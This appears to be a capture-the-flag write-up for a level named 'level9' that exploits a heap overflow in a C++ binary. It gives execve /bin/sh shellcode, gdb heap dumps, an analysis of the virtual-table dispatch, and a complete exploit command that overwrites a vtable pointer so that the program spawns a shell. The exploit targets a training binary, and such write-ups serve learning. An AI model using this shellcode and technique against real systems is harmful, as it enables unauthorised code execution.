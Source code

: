 ```
Here is our shellcode (size 24)
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

Here is the layout of the heap after the two allocation and construction of N object, and before
the call to `setAnnotation`

```bash
(gdb) x/75x 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x00000000
0x804a010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000005	0x00000071	0x08048848	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0e0:	0x00000006	0x00020f21	0x00000000	0x00000000
0x804a0f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a100:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a110:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a120:	0x00000000	0x00000000	0x00000000
```

`0x08048848` indicates start of struct

`instance1->nb` at this + 26 * 4 = `0x00000005`

`instance2->nb` at this + 26 * 4 = `0x00000006`

```bash
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:	0x0804873a
(gdb) x 0x0804873a
0x804873a <_ZN1NplERS_>:	0x8be58955
```

this address might be the pointer on member function called at the end of the main return value

### Payload

So the strategy should be to overwrite the member function `0x08048848` and points to another address in the heap that point to a shellcode.
why 2 jump are needed ? we need 2 jump because the call to the member function is dereferenced two times

`return (**(code **)*instance_2)(instance_2, instance_1);` --> here the 2 `*`

so we craft the payload

```bash
./level9 `python -c 'print("A" * 4 + "\x14\xa0\x04\x08" + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 76 + "\x10\xa0\x04\x08")'`
```

here we have at the end `"\x10\xa0\x04\x08"` that point to an adress (`\x31\xc0\x99\x50`) and this address point to the beginning of the shellcode

